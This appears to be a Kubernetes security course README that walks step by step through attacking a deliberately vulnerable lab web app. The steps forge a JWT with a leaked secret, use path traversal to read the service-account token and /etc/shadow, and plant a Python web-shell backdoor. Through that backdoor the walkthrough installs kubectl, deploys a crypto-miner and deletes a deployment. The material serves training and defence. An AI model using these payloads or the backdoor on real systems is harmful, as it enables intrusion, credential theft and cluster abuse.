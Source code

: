 # Exploit Application Vulnerabilities

Application vulnerabilities can bring wide range of different *attack entrypoints*. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.


## Demo: run a crypto-miner in the cluster

### Attack description:
- **Setup**: a K8s cluster with a web application deployed
- **Attacker**: an external user without any access to the cluster
- **Target**: kubectl access to the cluster (then: cluster compute resources, cluster availability, application data, more)
- **Entrypoint**: web application


## Steps to reproduce

<!-- TODO: выбросить, смерджить с Attacks -->

1. deploy [vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`) and `another-app` (empty)
2. explore the [images service]()

2. Go to [auth service](http://auth.vulnapp.seck8s.slurm.io/)
3. Sign-up any user and login
4. Get redirection to the [image service](https://images.vulnapp.seck8s.slurm.io/) with the greatest cat in the world :)
5. Decode JWT token and try to get more privileges
6. Write any interesting file (take a look at the image b64 data you'll receive)
7. Upload any interesting file (note: the container runs as root so you're relatively free)
8. Get working `kubectl` for the cluster


## Attack
2. register a test user in `auth-api`, get the JWT (with `user_role='user'`)
3. proceed to `images-api` with the JWT token, see the image (partially logged in)
<!-- > TODO: Show in dashboard : http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api/logs -->
<!-- JWT:
1) architecture issue: symmetric algo (HS256 not RS256) => both services use the same secret and can issue a new jwt
    look: our secret leaked from images service (LINK)
2) weak secret: can crack (https://github.com/lmammino/jwt-cracker)
3) privilege escalation
 -->
1. get the `SECRET_KEY`:
  - either find the [leaked value](http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api) in the exposed unprotected Dashboard
  - or check the Git commit history (`git blame`) to find the hard-coded secret in sources *vulnerability: [hard-coded credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*
  <!-- TODO: link to github -->
4. decode the JWT token using the leaked secret key and modify `user_role='admin'` (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
<!-- TODO: link to

https://github.com/Slurmio/webinar-seck8s/blob/60a70a81d8c4d86e1df0994eb14b7aadf9732b86/03-appsec/vulnerable-app/images-api/app.py#L23-L31
-->

<!-- NB: Source code is not secret -->

5. proceed to `images-api` with the new token, see the admin page
6. read some files: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token`, `../app.py`, `../../../../../../etc/shadow`, `../../../../../../etc/shadow/proc/1/environ`, etc.: (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)*)

> Note: inside the pod, kubectl is authenticated to the pod's SA. However, you could save SA's `token` and `ca.crt` to your local machine and, knowing the Kube API public URI, you can acess it remotely:
> ```kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>```

7. write the `./app.py` with backdoor activated via GET parameter `cmd` ([Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload))
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    <!-- TODO: use pre-prepared payload app.py -->
    <!-- TODO: use curl not burp -->
8. since the server is in Debug mode, it auto-reloads without restarting the pod
9. use the backdoor to install `kubectl`:
    <!-- we're in Ubuntu, and root => apt-get  -->
    <!-- TODO: kubectl get all -->
    <!-- TODO: curl -->
  - `?cmd=apt-get+update`
  - `?cmd=apt-get+-y+install+curl`
  - Next, from https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/ :
  - `?cmd=curl%20-LO%20%22https://dl.k8s.io/release/$(curl%20-L%20-s%20https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl%22`
  - `?cmd=install%20-o%20root%20-g%20root%20-m%200755%20kubectl%20/usr/local/bin/kubectl`
  - `?cmd=kubectl+get+all`

<!-- TODO : 'kubectl cluster-info dump' -->

10. now you can use kubectl configured to the workload's service account (deploy a miner): `?cmd=kubectl+apply+-f+images/monero-deployment.yaml`
11. or shut down the cluster's payload (Deployment only, permitted by RBAC): `?cmd=kubectl+delete+deployment+auth-api`


# Takeaways
<!-- TODO: -->
